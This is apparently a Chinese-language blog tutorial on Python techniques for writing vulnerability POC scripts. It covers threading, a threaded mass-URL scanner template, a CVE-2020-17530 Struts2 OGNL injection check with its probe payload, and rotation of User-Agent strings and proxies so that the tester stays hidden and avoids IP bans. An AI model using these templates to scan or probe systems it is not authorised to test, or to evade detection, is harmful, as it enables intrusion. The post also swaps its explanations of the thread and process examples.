




# 1. 前言

本篇记录的是使用多线程，同时优化了一些代码的写法，不过毕竟不是专业写代码的，可能还是有很多代码可以用比较简短的方式写出来，而我这边可能写的会比较繁琐，这个就需要你们自行去修改或者说自己去优化。

同时我们主要以编写`POC&EXP`，并不是写一个大型的程序，对于内存的消耗，性能的占用并不会考虑那么多，如果自己有条件的可以自行优化。

对于多线程&多进程方面我也不会进行过多的解释，想要理解透彻，还是建议去看专业的教编程的视频或文章。术业有专攻，我们更多的是知道如何使用，至于详细的调用，还需要靠自己去理解去学习。

基本上我都放置了很多的参考链接，可以自己去看看，由于我们编写POC&EXP的时候，后续基本上都是拿一个模板过来改一改，所以就看自己了怎么想了。

# 2. 多进程&多线程

多线程与多进程是`Python`中常用的并发编程实现方式，能够有效提高程序的执行效率，这里我还是建议去看视频说的较为详细一点。

- 对于I/O密集型任务（如网络请求、文件读写等），多线程可能是一个好选择，因为线程间切换开销较小。
- 对于CPU密集型任务，多进程通常能更好地利用多核CPU资源，实现真正的并行执行。

**参考文章：**

[Python多线程与多进程教程：全面解析、代码案例与优化技巧](https://cloud.tencent.com/developer/article/2392271)

[python多进程和多线程看这一篇就够了_python 线程 高频循环-CSDN博客](https://blog.csdn.net/Victor2code/article/details/109005171)

## 2.1. 多进程

**定义**：多进程允许在操作系统级别上创建多个独立的进程，每个进程都有自己独立的内存空间和系统资源。

**优点**：

- 进程间不共享内存，避免了数据竞争和不一致性问题。
- 对于CPU密集型任务，多进程可以真正实现并行执行，提高整体性能。

**缺点**：

- 进程间通信相对复杂，需要通过管道、套接字、共享内存等方式实现。
- 进程创建和销毁的开销较大。

### 2.1.1. 案例

```python
import multiprocessing  
import time  
  
def worker(num):  
    print("Process {} is working".format(num))  
    time.sleep(2)  
    print("Process {} finished".format(num))  
  
if __name__ == "__main__":  
    processes = []  
    for i in range(5):  
        p = multiprocessing.Process(target=worker, args=(i,))     ##创建一个新的进程对象，指定其要执行的目标函数为 worker，并将循环变量 i 作为参数传递给 worker 函数。
        processes.append(p)    ##processes.append(p) 将新创建的进程对象添加到 processes 列表中。
        p.start()  ##p.start() 启动进程，使其开始执行 worker 函数。
  
    for p in processes:  
        p.join()  ##p.join() 会阻塞主进程，直到进程 p 执行完毕。
```

这个案例创建了5个线程，每个线程都执行`worker`函数。所有线程几乎同时开始，但由于`time.sleep(2)`，它们会等待2秒后再结束。

## 2.2. 多线程

**定义**：多线程允许在单个进程中执行多个线程，这些线程共享相同的进程资源（如内存空间、打开的文件等）。

**优点**：

- 线程间切换开销较小，因为它们是共享同一进程的内存空间。
- 线程间通信相对简单，可以通过共享变量实现。

**缺点**：

- 由于Python的全局解释器锁（GIL）的存在，多线程在CPU密集型任务上通常不能实现真正的并行执行。这意味着即使你有多个线程，Python也只会同时执行一个线程，其他线程需要等待当前线程释放GIL后才能执行。
- 线程间共享数据可能导致数据竞争和不一致性问题。

### 2.2.1. 案例：

```python
import threading  
import time  
  
def worker():  
    print("Thread {} is working".format(threading.current_thread().name))    ##获取当前线程的名称
    time.sleep(2)    ##停顿两秒，延迟执行
    print("Thread {} finished".format(threading.current_thread().name))  
  
threads = []    ##创建一个列表用于保存创建的线程对象
for i in range(5):  ##循环创建5个线程
    t = threading.Thread(target=worker)  ## 创建一个新的线程对象，指定其要执行的目标函数为 worker
    threads.append(t)  ##将新创建的线程对象添加到 threads 列表中。
    t.start()  ##启动线程，使其开始执行 worker 函数。
  
for t in threads:  
    t.join()  ##t.join() 会阻塞主线程
```

这个案例创建了5个进程，每个进程都执行`worker`函数。与多线程案例类似，所有进程几乎同时开始，但由于`time.sleep(2)`，它们会等待2秒后再结束。注意，多进程案例中的`if __name__ == "__main__":`是为了在`Windows`上正确运行多进程代码。

**参数介绍：**

`Python`提供了`threading`模块来支持多线程编程。以下是`threading`模块中常用的几个类和方法：

```python
Thread类：表示一个线程对象，可以通过继承该类创建自定义的线程类。
start()方法：启动线程，使其处于就绪状态。
run()方法：线程启动后运行的方法，你可以在自定义的线程类中重写该方法以实现具体的逻辑。
join()方法：等待线程结束，使主线程阻塞，直到该线程执行完成。
Lock类：提供简单的锁机制，用于保护多线程对共享资源的访问。
Rlock类：可重入锁，可以被同一线程多次获取。
Semaphore类：信号量，用于控制对共享资源的并发访问数量。
Condition类：条件变量，用于实现线程之间的协调和通信。
```

## 2.3. `POC`的案例（模板）

我们在编写`POC&EXP`中基本上使用到多进程或多线程的还是比较少的，多数都是用于在读取文件中多个URL地址进行测试的时候会使用到，这次你几个URL的也不至于上线程来进行测试，用得上线程这些的多数都是几十个上百个地址，才值得使用，所以这里的话，知道怎么编写就欧克了。

下面代码中我也写了一些注释，这里准确来说都可以是一个模板，直接覆盖内容即可。

在下述代码中包含了测试的进度条、读写文件的操作、多线程，如果使用，基本上需要修改的就是`check_vulnerability`函数中的验证内容。

参考链接：[Python 线程，进程，多线程，多进程以及并行执行for循环笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/652120575)

```python
import requests
import argparse
import sys
from tqdm import tqdm
from concurrent.futures import ThreadPoolExecutor   ##线程池模块


def check_vulnerability(url):  ##用于调用测试验证POC
    try:
        response = requests.get(url, timeout=3)  ##发送get请求，超时3秒
        if response.status_code == 200:  ##判断页面是否为200响应吗
            return f"[+]{url}存在CVE-2020-25540目录遍历漏洞\n"
        else:
            return f"[-]{url}不存在CVE-2020-25540目录遍历漏洞\n"
    except Exception as e:
        return f"[-]{url}存在异常请检测！\n"


def file(file_name, num_threads=5):  ##接受用户传进来的文件路径地址，接受用户传进来的线程数，默认5个
    try:
        with open(file_name, 'r', encoding='utf-8') as input_file, open("result.txt", 'w',
                                                                        encoding='utf-8') as output_file:  ##打开文件，写入文件
            urls = [line.strip() for line in input_file]  ##将文件中内容循环读取出来，并去除每一行的后面的空格等，制作成列表。

            with ThreadPoolExecutor(max_workers=num_threads) as executor:  ##产生地址池，设置线程（默认5）
                results = list(
                    tqdm(executor.map(check_vulnerability, urls), total=len(urls), desc="测试漏洞连通性",
                         ncols=100))  ##根据线程发送给poc模块进行测试，同时测试列表长度，设定百分比

            for result in results:  ##将结果写入到文件中。
                output_file.write(result)

    except KeyboardInterrupt:
        print("用户已中断程序执行。")
        sys.exit(0)
    except Exception as e:
        print(e)


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-f", dest="file", required=False, help="The default vulnerability port is 80")
    parser.add_argument("-t", dest="threads", type=int, default=5, required=False,
                        help="Number of threads to use (default is 5)")
    args = parser.parse_args()
    file(args.file, args.threads)


if __name__ == '__main__':
    main()

```

看下图，第一行我测试的是只用两个线程来执行，一共是4个`url`，基本上是花费了4秒左右，第二行是我没用线程，4个`url`花费了9秒，还是能够看出来区别效果的。



# 3. UA头设置

在下面中我们可以看到`headers`中的`User-agent`是从我们之前的`burp`软件中导出来的，这里可以隐藏自己，将所有的`UA`头，让每次运行的时候随机选择一个。

```python
def poc(url, port):
    payload = "/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1",
               "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if "test2041" in r.text:
            print(f"[+]{url}存在CVE-2020-17530远程命令执行漏洞")
        else:
            print(f"[-]{url}不存在CVE-2020-17530远程命令执行漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)
```

## 3.1. 随机UA头

`User-Agent`代表用的哪个请求的浏览器

### 3.1.1. 案例

这里我们可以列举一个UA头列表，然后随机取其中一个UA头替换请求头中的ua头内容。

```python
import random  # 确保已经导入了random模块  
  
headers = {  
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",  
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",  
    "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",  
    "Accept-Encoding": "gzip, deflate, br",  
    "DNT": "1",  
    "Connection": "close"  
}  
  
ua_list = [  
    "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0)",  
    "Mozilla/5.0 (Windows; U; Windows NT 5.2) Gecko/2008070208 Firefox/3.0.1",  
    "Mozilla/5.0 (Windows; U; Windows NT 5.2) AppleWebKit/525.13 (KHTML, like Gecko) Version/3.1",  
    "Mozilla/5.0 (Windows; U; Windows NT 5.2) AppleWebKit/525.13 (KHTML, like Gecko) Chrome/0.2.149.27",  
    "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1) ;  QIHU 360EE)"  
]  
  
# 随机选择一个user_agent  
user_agent = random.choice(ua_list)  
  
# 替换headers字典中的User-Agent值  
headers["User-Agent"] = user_agent  
  
# 打印更新后的headers字典以验证更改  
print(headers)
```



### 3.1.2. 模板拼接

这里就是将上述的内容，并结合到实际的案例中。

```python
import argparse
import requests
import sys
import random


##设置ua头列表
ua_list = [
    "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0)",
    "Mozilla/5.0 (Windows; U; Windows NT 5.2) Gecko/2008070208 Firefox/3.0.1",
    "Mozilla/5.0 (Windows; U; Windows NT 5.2) AppleWebKit/525.13 (KHTML, like Gecko) Version/3.1",
    "Mozilla/5.0 (Windows; U; Windows NT 5.2) AppleWebKit/525.13 (KHTML, like Gecko) Chrome/0.2.149.27",
    "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1) ;  QIHU 360EE)"
    
]
def poc(url, port):
    payload = "/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1",
               "Connection": "close"}
    user_agent = random.choice(ua_list)    ##随机取其中一个ua头
    headers["User-Agent"] = user_agent    ##替换字典中的值
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if "test2041" in r.text:
            print(f"[+]{url}存在CVE-2020-17530远程命令执行漏洞")
        else:
            print(f"[-]{url}不存在CVE-2020-17530远程命令执行漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
  .:: ::    .::                   .::                 
.::    .::  .::                   .::          .:::.: 
 .::      .:.: .:.: .:::.::  .::.:.: .: .:::: .:    .:
   .::      .::   .::   .::  .::  .::  .::        .:: 
      .::   .::   .::   .::  .::  .::    .:::   .::   
.::    .::  .::   .::   .::  .::  .::      .::.::     
  .:: ::     .:: .:::     .::.::   .:: .:: .::.:::::::
    """
    print(banner)
    print("Vulnerability version: x1.6.0-x2.2.3")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    poc(args.url, args.port)


if __name__ == '__main__':
    main()

```

# 4. 代理Proxy

测试请求地址：[IP地址查询_本机IP_我的IP (900cha.com)](https://ip.900cha.com/)

免费代理IP：[国内高匿HTTP免费代理IP_IP代理_HTTP代理 - 快代理 (kuaidaili.com)](https://www.kuaidaili.com/free/intr/)

设置代理主要是用于防止网站对`IP`的检测，一个`IP`如果长时间去访问，那么服务器会对其进行限制，尤其是在触发一些告警的时候，可能会直接将`IP`地址封禁，导致我们继续后面的测试。

对于代理方面主要分为：

透明代理：目标网站知道你使用了代理，并且知道你的源`IP`，那么这样的话，那干嘛还要使用代理呢？

匿名代理：目标网站知道你使用了代理，但是不知道你是源`IP`，那这样也是可以将就的。

高匿代理：目标网站既不知道你使用的代理更不知道你的源`IP`，但是要钱！！

```python
python3.8以下版本：
proxies{'要请求网站的协议类型':'代理服务器ip:端口'}
案例：proxies{'https':'127.0.0.1:8080'}

python3.8以上版本：
proxies{'要请求网站的协议类型':'"代理服务器类型(http/https/socks5)://代理服务器ip:端口'}
案例：proxies{'https':'http://112.194.91.135:41122'}
```

## 4.1. 单代理案例

这里就使用一个单的代理进行测试案例。

```python
import requests

url = 'https://ip.900cha.com/'

proxies = {
    'https': 'http://112.194.91.135:41122'  ##从网上搞来的免费代理
}

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
           "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
           "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
           "Accept-Encoding": "gzip, deflate, br",
           "DNT": "1",
           "Connection": "close"}

r = requests.get(url=url, headers=headers, proxies=proxies)  ##将代理IP带入
print(r.text)

```

可以看下面的返回的结果，访问确实使用了代理访问。



## 4.2. 多代理案例

这里通过设置一个代理列表，如何随机从代理列表中抽取一个`IP`地址如何传输到字典中，来进行发送请求。这里字典有`HTTP`与`HTTPS`，是如何方便的呢？

在`requests`库中，当你发送一个请求时，库会自动根据请求的URL来决定使用`http`还是`https`。如果你提供的URL以`http://`开头，`requests`会使用`http`代理；如果URL以`https://`开头，它会使用`https`代理。

我们这里很明显设置的`URL`是`https`，那么自然在请求的时候会去发送https的请求。

```python
import requests
import random

url = 'https://ip.900cha.com/'

proxies_list = [
    'http://112.194.88.9:41122',
    'http://112.194.91.135:41122'
]

# 随机选择一个代理
random_proxy = random.choice(proxies_list)
print(random_proxy)

# 设置代理字典
proxies = {
    'http': random_proxy,
    'https': random_proxy
}

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
           "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
           "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
           "Accept-Encoding": "gzip, deflate, br",
           "DNT": "1",
           "Connection": "close"}

r = requests.get(url=url, headers=headers, proxies=proxies)
print(r.text)
```

### 4.2.1. 请求结果

第一次请求是135的地址。


第二次请求是9的地址。



# 5. 模板

这里挺简单的还需要我写模板吗？？？？自行编写吧，就修修改改的事情。
